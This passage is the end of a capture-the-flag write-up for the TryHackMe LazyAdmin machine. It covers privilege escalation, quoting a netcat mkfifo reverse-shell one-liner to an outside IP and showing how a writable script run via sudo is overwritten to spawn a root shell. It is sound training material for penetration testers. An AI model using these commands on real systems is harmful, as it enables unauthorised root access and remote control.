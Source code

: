 Checking the content of the `/etc/copy.sh` script seems like it sends a reverse shell to the `192.168.0.190` IP address (this seems like a miss-configuration of the machine).

```bash
www-data@THM-Chal:/$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

Checking the permissions of this bash script we can see that is owned by `root` but we can modify it as others.

```bash
www-data@THM-Chal:/$ ls -l /etc/copy.sh  
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
```

So, let's modify it's content to spawn a elevated shell.

```bash
www-data@THM-Chal:/$ echo "/bin/bash -p" > /etc/copy.sh
www-data@THM-Chal:/$ cat /etc/copy.sh
/bin/bash -p
```

What remains is execute the `backup.pl` script as `root` and it should spawn us a elevated shell.

```bash
www-data@THM-Chal:/$ sudo perl /home/itguy/backup.pl 
root@THM-Chal:/# whoami
root
```

Once as `root` we can read the `root.txt` flag at `/root/root.txt`.

```bash
root@THM-Chal:/# cat /root/root.txt 
THM{**************************}
```

---
## Final Thoughts

The **LazyAdmin** machine on TryHackMe is an excellent exercise in **web application enumeration**, **credential discovery**, and **privilege escalation**. The initial phase involves using fuzzing to uncover a hidden login page and a database backup file, which contains valid credentials. This highlights the importance of thorough enumeration and the risks of leaving sensitive files exposed. Gaining initial access requires crafting a **malicious ad** to trigger a reverse shell, demonstrating the potential dangers of improper input validation and insecure file handling. The privilege escalation phase involves exploiting a **misconfigured sudoers permission**, where a Perl script executes a Bash script as root. By modifying the Bash script due to improper permissions, a root shell is obtained. This machine effectively reinforces skills in **web fuzzing, credential harvesting, reverse shell execution, and privilege escalation**, making it a valuable learning experience for aspiring penetration testers.

![Desktop View](LazyAdminPwn.png)

-- -
**Thanks for reading, i’ll appreciate that you take a look to my other posts :)**

